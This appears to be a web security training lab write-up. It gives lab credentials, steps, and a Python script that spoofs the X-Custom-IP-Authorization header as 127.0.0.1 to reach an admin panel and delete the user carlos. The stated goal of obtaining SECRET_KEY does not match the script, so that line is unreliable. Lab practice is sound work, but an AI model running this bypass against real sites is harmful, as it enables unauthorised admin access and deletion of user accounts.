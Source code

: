 
Creds - wiener:peter

Target Goal - Exploit vulnerability to obtain the SECRET_KEY environment variable.

Use TRACE method to see more information in the response
Use X-Custom-IP-Authorization: 127.0.0.1 with method GET
Access admin panel and delete users

```python
import requests
import sys
import urllib3
import re 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_carlos(s, url):

    delete_carlos_url = url + "/admin/delete?username=carlos"
    headers = {"X-Custom-IP-Authorization": "127.0.0.1"}
    r = s.get(delete_carlos_url, headers=headers, verify=False, proxies=proxies)
    if "Congratulations" in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Could not delete user.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    delete_carlos(s, url)

if __name__ == "__main__":
    main()
```